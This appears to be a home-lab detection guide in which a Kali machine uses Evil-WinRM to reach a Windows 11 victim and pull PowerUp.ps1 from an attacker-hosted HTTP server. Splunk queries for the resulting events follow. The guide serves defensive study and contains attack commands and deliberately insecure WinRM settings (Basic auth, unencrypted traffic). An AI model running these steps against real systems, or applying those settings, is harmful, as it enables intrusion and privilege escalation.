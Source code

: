 **Detection Use Case 2: Lateral Movement**

---

### ✨ Objective

To detect lateral movement where an attacker uses Evil-WinRM to remotely access a Windows machine and downloads the PowerUp.ps1 script for privilege escalation checks.

### 📑 Lab Setup

* **Attacker Machine:** Kali Linux
* **Victim Machine:** Windows 11

  * Sysmon Installed
  * Wazuh Agent Installed
  * Universal Forwarder Installed (for Splunk)
* **SIEM:** Splunk Free (running on Ubuntu VM with Wazuh Stack)

---

## 🚀 Step-by-Step Guide

### ✅ Step 1: Configure WinRM on Windows 11 (Victim)

Run these PowerShell commands as Administrator:

```powershell
Set-NetConnectionProfile -InterfaceAlias "Ethernet0" -NetworkCategory Private
Enable-PSRemoting -Force
Set-Item WSMan:\localhost\Service\Auth\Basic -Value $true
Set-Item WSMan:\localhost\Service\AllowUnencrypted -Value $true
Restart-Service WinRM
```

> Ensure the firewall is open for TCP port 5985

```powershell
New-NetFirewallRule -Name "AllowWinRM5985" -DisplayName "Allow WinRM Port 5985" -Protocol TCP -LocalPort 5985 -Action Allow
```

---

### ✅ Step 2: Evil-WinRM Attack from Kali

#### 2.1: Install Evil-WinRM (if needed)

```bash
sudo apt update && sudo apt install evil-winrm -y
```

#### 2.2: Connect to Victim

```bash
evil-winrm -i <Victim-IP> -u <username> -p <password>
```

> Replace with actual victim IP and credentials.

#### 2.3: Download PowerUp.ps1 Script

On Kali:

```bash
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
python3 -m http.server 8888
```

On Evil-WinRM shell (Victim):

```powershell
Invoke-WebRequest -Uri http://<Kali-IP>:8888/PowerUp.ps1 -OutFile C:\Users\<username>\PowerUp.ps1
```

---

### 🔎 Step 3: Detection in Splunk

#### 3.1: Successful Login (Security Event 4624)

```spl
index=* EventCode=4624 Account_Name=testuser
```

Look for Logon Type = 3, and source IP = Kali

#### 3.2: PowerShell Remoting (Event 5156)

```spl
index=* EventCode=5156
```

*If Image doesn't exist, check for Application\_Name or SourceImage fields.*

#### 3.3: File Creation via PowerShell (Sysmon Event 11)

```spl
index=* EventCode=11 TargetFilename="*PowerUp.ps1"
```

#### 3.4: Optional - Network Connections via Sysmon (Event 3)

```spl
index=* EventCode=3
```

---

### ⚡ Detection Summary

* **4624**: Remote login from attacker (Kali) via Evil-WinRM
* **5156 / 3**: PowerShell Remoting process activity 
* **11**: File creation of PowerUp.ps1 via PowerShell

---

